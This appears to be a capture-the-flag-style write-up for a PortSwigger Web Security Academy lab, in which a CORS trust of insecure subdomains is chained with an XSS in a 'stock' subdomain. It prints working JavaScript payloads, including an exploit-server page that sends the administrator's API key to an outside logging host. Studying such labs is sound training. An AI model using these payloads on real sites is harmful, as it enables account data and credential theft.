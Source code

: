 ```yaml
---
layout: post
title:  "CORS vulnerability with trusted insecure protocols"
date:   2024-10-16 11:20:54 +0530
categories: [BSCP, CORS]
---
```


## Introduction

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

## Solution

Looks like the same previous lab, but there is a new functionality to check the stocks where it takes new subdomain called `stock` and there is a XSS vulnerability through `productId`

![]({{ site.baseurl }}/assets/images/cors-14.png)


As same the previous lab, we found a endpoint called `/accountDetails` where it shows the API keys being available of the loggedin user

![]({{ site.baseurl }}/assets/images/cors-15.png)

Now coming to the CORS part, In the `/accountDetails` endpoint we sent the `Origin: http://example.com` and nothing happens in the response 

![]({{ site.baseurl }}/assets/images/cors-16.png)

But when we send the subdomain as a origin, it accepts and discloses in the response as an `ACAO` 

![]({{ site.baseurl }}/assets/images/cors-17.png)

When we look back at our first lab, we can take that POC and make it as a oneliner 

```js
<script>var req=new XMLHttpRequest();req.onload=reqListener;req.open('get','https://0a90007603b4470f808430ae0091001b.web-security-academy.net/accountDetails',true);req.withCredentials=true;req.send();function reqListener(){location='/log?key='+this.responseText;}</script>
```

And submitted it as payload for the XSS in the `stock` subdomain and it works as you see

![]({{ site.baseurl }}/assets/images/cors-18.png)


Ok awesome, In the Exploit server with the following POC 

```html
<script>
    document.location="http://stock.0a18006104de0fa18139b1cb001d000c.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a18006104de0fa18139b1cb001d000c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ab8008604440fdf8185b06c01ad008c.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Once after delivering the exploit to the victim and checking the accesslog we found the `administrator` API key

![]({{ site.baseurl }}/assets/images/cors-20.png)

Take the API key and submit it as a solution and the lab will be solved 

![]({{ site.baseurl }}/assets/images/cors-21.png)